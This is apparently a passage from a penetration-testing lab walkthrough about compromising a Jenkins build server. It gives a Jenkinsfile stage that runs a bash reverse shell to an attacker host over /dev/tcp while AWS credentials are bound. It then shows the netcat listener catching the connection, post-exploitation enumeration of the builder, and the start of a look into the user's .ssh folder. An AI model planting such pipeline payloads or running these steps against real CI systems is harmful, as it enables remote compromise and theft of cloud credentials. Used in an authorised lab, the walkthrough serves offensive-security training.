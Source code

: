 - Before we add the reverse shell payload to the Jenkinsfile, we will wrap the whole thing in one more bash command. When dealing with redirects and pipes and reverse shells, it's always good to execute the payload in another bash session by using -c to specify the command to execute. For example: bash -c "PAYLOAD GOES HERE". This is because we aren't sure how the builder will execute the code or whether the redirections will work. However, if we wrap it in bash, we can ensure that it's executed in an environment where redirections will work. We'll also add an ampersand at the end to send the command to the process background, so execution doesn't stop because of a timeout.
```bash
pipeline {
  agent any
  stages {
    stage('Send Reverse Shell') {
      steps {
        withAWS(region: 'us-east-1', credentials: 'aws_key') {
          script {
            if (isUnix()) {
              sh 'bash -c "bash -i >& /dev/tcp/<KALI CLOUD>/4242 0>&1" & '
            }
          }
        }
      }
    }
  }
}
```
- Login with the shell using particular port
```bash
nc -nvlp 4242
listening on [any] 4242 ...
connect to [10.0.1.78] from (UNKNOWN) [198.18.53.73] 54980
bash: cannot set terminal process group (58): Inappropriate ioctl for device
bash: no job control in this shell
```
### Enumerating the Builder
- Response from the shell
```powershell
jenkins@5224aadecddc:~/agent/workspace/image-transform$ **whoami**
whoami
jenkins
jenkins@5224aadecddc:~/agent/workspace/image-transform$ **hostname**
hostname
5224aadecddc
jenkins@5224aadecddc:~/agent/workspace/image-transform$ **uname -a**
uname -a
Linux 5224aadecddc 4.14.311-233.529.amzn2.x86_64 #1 SMP Thu Mar 23 09:54:12 UTC 2023 x86_64 GNU/Linux
jenkins@5224aadecddc:~/agent/workspace/image-transform$ **cat /etc/os-release**
cat /etc/os-release
PRETTY_NAME="Debian GNU/Linux 11 (bullseye)"
NAME="Debian GNU/Linux"
VERSION_ID="11"
VERSION="11 (bullseye)"
VERSION_CODENAME=bullseye
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
jenkins@5224aadecddc:~/agent/workspace/image-transform$ ifconfig
```
- Tried to check ssh folder and some processes
```bash
cd ~
ls -la
cd .ssh
```